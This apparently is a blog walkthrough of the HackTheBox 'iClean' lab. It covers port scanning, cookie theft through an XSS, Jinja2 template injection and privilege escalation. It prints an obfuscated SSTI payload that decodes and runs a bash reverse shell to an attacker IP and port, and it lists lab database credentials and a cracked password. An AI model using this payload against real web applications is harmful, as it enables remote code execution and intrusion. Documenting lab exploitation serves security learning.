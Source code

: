 ```yaml
---
layout: post
title: HTB - iClean Walkthrough
categories: [HackTheBox, Writeups]
date: 2024-08-28 09:45 +0200
media_subpath: /assets/images
---
```

# HTB - IClean
## Scanning

```js
# Nmap 7.94SVN scan initiated Tue Jul 16 21:00:35 2024 as: nmap -sC -sV -oA nmap/iclean -p- -vv 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up, received reset ttl 63 (0.031s latency).
Scanned at 2024-07-16 21:00:36 UTC for 37s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6uGZlOYFnD/75LXrnuHZ8mODxTWsOQia+qoPaxInXoUxVV4+56Dyk1WaY2apshU+pICxXMqtFR7jb3NRNZGI4=
|   256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJBnDPOYK91Zbdj8B2Q1MzqTtsc6azBJ+9CMI2E//Yyu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 16 21:01:13 2024 -- 1 IP address (1 host up) scanned in 37.88 seconds
```

Visiting the site and we get redirected to capiclean.htb so we add it to the hosts file. The site is a flask web server. There is nothing interesting on the page except a login page so I will begin to enumerate.

## Enumeration

I ran a vhost scan and a directory scan and found nothing interesting. I'm thinking of using the names found on the main page to find a valid login for someone. The only intractable thing here was a page to get a quote where you could input an email and what services you'd like. I was able to find a xss vulnerability that made it possible for me to get the cookie of whoever sees the request:

![Burp](20240723152713.png)

With the cookie set I was able to explore to the dashboard at /dashboard where I get offered a few functions

![Dashboard options](20240723152958.png)

Generate Invoice seems interesting since it is is getting stored somewhere which we can check with Generate QR. Anything that haven't been seen before by us is invalid so there is some kind of database storing these. Apparently I wasted a lot of time thinking this was sqli when it was ssti

## Exploitation

To exploit the ssti we have to attempt to generate a printable invoice that has qr_code parameter as input. If we put `{{7*7}}` in there for example we get 49 on the final page. And we can use this for shell:
{% raw %}
```
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzQvNDQ0NCAwPiYx | base64 -d | bash")["read"]() %} a {% endwith %}
```
{% endraw %}
but urlencoded ofc:

![Burp request](20240723170155.png)

## Escalation

```
/opt/app/templates/temporary_invoice.html
consuela mail /var/spool/mail /var/mail
/var/www/pmm2
```

Mysql user `iclean:pxCsmnGLckUb`

IN the database we could read the credentials of the users. Consuela had the hash `0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa`which becomes `simple and clean`. The admin hash was unknown. I was able to log in to consuelas user

The rest was pretty easy. There was a suid binary that I could use to read the root flag in some way which was this:

![Escalation](20240723175427.png)

I had to input a real pdf file so I just uploaded one from my side.
